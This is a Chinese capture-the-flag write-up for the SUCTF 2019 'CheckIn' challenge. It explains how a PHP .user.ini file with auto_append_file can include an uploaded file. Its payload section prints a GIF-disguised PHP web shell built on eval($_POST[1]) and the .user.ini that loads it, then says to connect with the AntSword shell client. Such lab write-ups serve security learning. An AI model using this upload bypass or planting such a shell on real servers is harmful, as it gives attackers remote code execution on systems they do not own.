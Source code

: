 # 原创
：  [SUCTF 2019]CheckIn

# [SUCTF 2019]CheckIn

#### [SUCTF 2019]CheckIn

## 考点

> 
.user.ini


## 思路

> 
`.user.ini`比`.htaccess`用的更广，nginx、apache、IIS，只要是以fastcgi运行的php都可以用这个方法，不像`.htaccess`有局限性，只能是apache<br/> `php.ini`是php默认的配置文件，其中包括了很多php的配置，分为几种：`PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER`


> 
`.user.ini`是一个能被动态加载的ini文件，修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载


> 
`auto_prepend_file`指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数；`auto_append_file`类似，只是在文件后面包含，使用时直接写在.user.ini中：


```
GIF89a
auto_prepend_file=01.gif

```

> 
所以我们先上传一个gif文件再上传一个.user.ini文件包含它


## Payload

> 
shell.gif文件内容


```
GIF89a
&lt;script language="php"&gt;
    if(@$_GET['shell']=='test'){
        phpinfo();
    }
    @eval($_POST[1]);
&lt;/script&gt;

```

> 
.user.ini内容


```
GIF89a
auto_append_file=shell.gif

```

> 
等生效后，用蚁剑连接即可


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210623160407811.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210623160535949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
